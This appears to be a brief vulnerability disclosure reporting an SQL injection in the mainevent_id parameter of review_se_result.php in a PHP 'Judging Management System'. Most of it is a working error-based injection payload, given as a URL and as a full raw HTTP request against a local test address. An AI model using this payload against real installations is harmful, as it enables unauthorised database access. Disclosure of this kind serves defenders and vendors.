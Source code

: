 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Prohibit-404

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/review_se_result.php?mainevent_id=

Vulnerability location: /php-jms/review_se_result.php?mainevent_id=, mainevent_id

dbname =jms_db

[+] Payload: /php-jms/review_se_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> 

```sql
GET /php-jms/review_se_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206376208-05e89f1e-2c8a-421e-b9e3-86bbe64e3c5c.png)

